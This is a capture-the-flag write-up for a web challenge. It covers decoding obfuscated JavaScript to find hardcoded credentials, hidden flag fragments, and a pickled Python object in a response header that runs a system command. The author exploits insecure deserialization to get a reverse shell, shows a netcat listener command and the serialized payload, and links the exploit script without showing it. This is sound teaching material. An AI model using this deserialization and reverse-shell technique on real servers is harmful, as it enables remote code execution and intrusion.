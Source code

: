 # Challenge description

http://chall.ehax.tech:8008/

# Soluce

## First step

When you fetch the main page, you get the following script:

```js
!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]

...
```

You can decode it with the site: https://enkhee-osiris.github.io/Decoder-JSFuck/

Which gives us:

```js
const _0x3645b3=_0x4842;function _0x4842(_0x19d358,_0x49968c){const _0x2ad82b=_0x2ad8();return _0x4842=function(_0x484299,_0x4da982){_0x484299=_0x484299-0x1f1;let _0x4c8636=_0x2ad82b[_0x484299];return _0x4c8636;},_0x4842(_0x19d358,_0x49968c);}(function(_0x4ff4ae,_0x561f72){const _0x2b38fa=_0x4842,_0x2d072e=_0x4ff4ae();while(!![]){try{const _0x20be76=parseInt(_0x2b38fa(0x1f5))/0x1+-parseInt(_0x2b38fa(0x206))/0x2*(parseInt(_0x2b38fa(0x205))/0x3)+parseInt(_0x2b38fa(0x202))/0x4+-parseInt(_0x2b38fa(0x1ff))/0x5+-parseInt(_0x2b38fa(0x1fd))/0x6*(parseInt(_0x2b38fa(0x201))/0x7)+-parseInt(_0x2b38fa(0x1f2))/0x8+parseInt(_0x2b38fa(0x1fa))/0x9*(parseInt(_0x2b38fa(0x1f9))/0xa);if(_0x20be76===_0x561f72)break;else _0x2d072e['push'](_0x2d072e['shift']());}catch(_0x1a16c9){_0x2d072e['push'](_0x2d072e['shift']());}}}(_0x2ad8,0xbdbb4));const form=document[_0x3645b3(0x1fe)](_0x3645b3(0x200));async function submitForm(_0x361a11){const _0xbae53f=_0x3645b3,_0x261004=await fetch(_0xbae53f(0x203),{'method':'POST','body':JSON[_0xbae53f(0x208)](_0x361a11),'headers':{'Content-Type':_0xbae53f(0x1f4)}});window[_0xbae53f(0x1f7)]='/welcome.png';}form[_0x3645b3(0x1f8)](_0x3645b3(0x1f6),_0x3f6721=>{const _0x43e2d2=_0x3645b3;_0x3f6721[_0x43e2d2(0x1f1)]();const _0x451641=document[_0x43e2d2(0x204)](_0x43e2d2(0x1fc)),_0x12fab0=document['getElementById'](_0x43e2d2(0x207));_0x451641[_0x43e2d2(0x1fb)]=='dreky'&&_0x12fab0['value']=='ohyeahboiiiahhuhh'?submitForm({'user':_0x451641['value'],'pass':_0x12fab0[_0x43e2d2(0x1fb)]}):alert(_0x43e2d2(0x1f3));});function _0x2ad8(){const _0x5aa71f=['2115056nOLZur','Invalid\x20username\x20or\x20password','application/json','206204rQEQbe','submit','location','addEventListener','4252550HZZkfV','18etmbIj','value','username','43194hBWQRV','querySelector','5935145KtOSgP','.login-form','238aTVShg','6015272rbWZkU','/login','getElementById','15cVIXSQ','34886FmgdQH','password','stringify','preventDefault'];_0x2ad8=function(){return _0x5aa71f;};return _0x2ad8();}
```

We see that

user --> dreky

password --> ohyeahboiiiahhuhh

Once logged in, it fetch the welcome.png and, before load it, fetch another page, if we use burp, we get the following page:

```html
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Sun, 16 Feb 2025 09:49:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1714
Connection: close

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dark Theme Login Form</title>
    <link rel="stylesheet" href="/part1_styles.css">
    <style>
        body {
            font-family: Arial, sans-serif;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
            background-color: #121212;
            color: #ffffff;
        }

        .login-form {
            background: #1e1e1e;
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0 4px 6px rgba(0, 0, 0, 0.7);
            width: 300px;
        }

        .login-form h2 {
            margin-bottom: 20px;
            text-align: center;
        }
    
        input {
            width: 95%;
            padding: 8px;
            border: 1px solid #444;
            border-radius: 4px;
            background-color: #292929;
            margin: 10px 0px;
            color: #ffffff;
        }

        input::placeholder {
            color: #888;
        }

        button {
            width: 100%;
            padding: 10px;
            background-color: #007bff;
            color: #ffffff;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            font-weight: bold;
            margin: 10px 0px;
        }

        .form-group button:hover {
            background-color: #0056b3;
        }
    </style>
</head>

<body>
    <form class="login-form">
        <h2>Part 1 of the flag</h2>
        <br>
        <p>E4HX{oh<span hidden>_h3l1_</span></p>
    </form>
</body>

</html>
```

We can already see a hidden flag, the beginning of the flag: E4HX{oh_h3l1_

We can see that there is also a "part1_styles.css" file that we can access. 
In this file, there is this important part:

```css
.alert.success {
    background-color: #d4edda;
    color: #155724;
    secret: "/t0p_s3cr3t_p4g3_7_7";
}
```

So let's go to this famous page to see what it contains:

```html
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Sun, 16 Feb 2025 09:55:21 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1660
X-Serial-Token: gASVIAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAVkcmVreZSFlFKULg==
Connection: close

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>What did you get??</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
            background-color: #121212;
            color: #ffffff;
        }

        .login-form {
            background: #1e1e1e;
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0 4px 6px rgba(0, 0, 0, 0.7);
            width: 300px;
        }

        .login-form h2 {
            margin-bottom: 20px;
            text-align: center;
        }
    
        input {
            width: 95%;
            padding: 8px;
            border: 1px solid #444;
            border-radius: 4px;
            background-color: #292929;
            margin: 10px 0px;
            color: #ffffff;
        }

        input::placeholder {
            color: #888;
        }

        button {
            width: 100%;
            padding: 10px;
            background-color: #007bff;
            color: #ffffff;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            font-weight: bold;
            margin: 10px 0px;
        }

        .form-group button:hover {
            background-color: #0056b3;
        }
    </style>
</head>

<body>
    <form class="login-form">
        <h2>Part 2</h2>
        <p>Huh you reached the part 2, nice!!!</p>

        <h1>dreky</h1>

    </form>
</body>

</html>
```
When we are sent the page, there is this header:

X-Serial-Token: gASVIAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAVkcmVreZSFlFKULg==

We can suspect that it is a serialized object in Python. When we decode it, it try to execute the following command: "dreky". We can deduce that this command is executed by default when we access the page and 

```html
<h1>dreky</h1>
```

is the output of this command.


We will try to execute an other command by changing the header with the code [here](serialize.py)

We tried this with netcat, but we got the error 

```html
<h1>32512</h1>
```

on the html page, indicating that netcat is probably not available on the remote machine. So we tried with another way, the one in the [code](serialize.py).

We execute this command to listen on the port 8008 to get a reverse shell:

```bash
nc -lvnp 8008
```

Then we execute our python script. It gives us a reverse shell. You can find the flag with the command:

```bash
cat FLAG
```
